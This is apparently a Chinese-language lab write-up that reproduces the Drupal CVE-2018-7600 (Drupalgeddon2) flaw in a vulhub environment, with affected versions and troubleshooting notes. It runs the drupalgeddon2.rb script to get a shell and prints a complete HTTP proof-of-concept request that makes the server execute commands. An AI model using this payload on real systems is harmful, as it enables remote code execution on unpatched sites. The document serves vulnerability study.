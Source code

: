 # 0x00 复现环境
使用复现环境：vulhub->https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2018-7600

# 0x01 利用条件
无

# 0x02 影响版本
7.23<=7.x<=7.57  
8.3.x<=8.3.8  
8.4.x<=8.4.5  
8.5.x<=8.5.0

# 0x03 漏洞复现
执行“ruby ./drupalggedon2.rb http://172.16.35.128:8080”  
会返回一个shell，可在返回的shell中执行命令，如下图  
![image](./0.png)

# 0x04 踩坑记录
坑1：环境创建完之后，使用kali下的firefox访问127.0.0.1:8080时，burp不能抓到数据包，原因未知，解决方案：使用kali下的firefox访问局域网ip“172.16.35.128:8080”  
坑2：登录状态下使用vulhub中的poc无效，需要登出后才可执行命令id，vulhub中的poc如下:  
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```
坑3：使用vulhub中的poc执行命令“ls”，只能看到一个文件“web.config”，执行命令“ls -a /”也只能看到一个文件“var”

# 参考链接
https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2018-7600
